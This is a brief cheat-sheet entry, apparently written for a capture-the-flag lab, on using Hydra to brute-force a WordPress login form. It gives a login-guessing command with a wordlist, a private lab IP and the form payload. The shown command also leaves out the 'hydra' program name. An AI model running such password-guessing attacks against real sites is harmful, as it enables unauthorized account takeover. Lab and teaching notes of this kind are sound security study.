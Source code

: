 # Hydra


## Bruteforce HTTP Form

To bruteforce a Login catch the request with burpsuite and for a hydra command.


```console
root@machine:~$ -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

Options:
    -vV     verbose mode
    -L      use wordlist for Username
    -p      use given password
    -http-post-form     request type

Payload:
    '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

`^USER^` & ^PASS^ are used as placeholder. "F=Invalid username" is the string for the error message.

---
